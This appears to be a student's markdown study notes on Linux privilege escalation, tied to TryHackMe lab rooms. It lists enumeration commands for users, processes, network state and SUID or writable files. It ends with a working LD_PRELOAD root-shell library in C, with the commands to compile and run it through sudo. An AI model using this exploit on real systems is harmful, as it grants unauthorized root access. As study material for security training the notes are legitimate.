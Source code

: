 ## Privilege Escalation
- https://tryhackme.com/room/introtoshells
- https://tryhackme.com/room/linprivesc
- Check list
  - hostname
  - uname -a = sys info, kernel
    - cat /etc/lsb-release
  - /proc/version = process, compiler,
  - /etc/issue = OS info
  - ps a[all]u[who_launched]x[not_terminal]  (all users)| -a | axjf (tree)= process list
  - env = environmental variables
  - cat /etc/passwd | cut -d ":" -f 1 // grep home
  - ifconfig
  - netstat -a | -at [tcp] -au [upd] | -l [listening] | -s [statistic] | -tp [pid] | -i [interface_data]
    - ss = see sockets
  - find 2>/dev/null = redirect errors
    - -name, -perm a=x, -mtime
    - find / = directory config
    - -perm -u=s = SUID
    - -name perl*, python*, gcc* = dev tools
    - find / -type f -perm -04000 -ls 2>/dev/null ==> *SUID or SGID* files
    - find / -perm -u=s -type f 2>/dev/null
    - find / -writable 2>/dev/null ==> find writable folders
      - sudo -u OWNER file

 sudo -l
- [GTFOBins](https://gtfobins.github.io/gtfobins/find/)

### shared libraries 
- sudo -l ==> LD_PRELOAD ==>   
- https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/
- ldd = shared object dependencies
  - ldd /path/to/file

```
# Bad library
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

# Compile bad library
gcc -fPIC -shared -o root.so root.c -nostartfiles

# Run executable with library
LD_PRELOAD=root.so executable restart
```
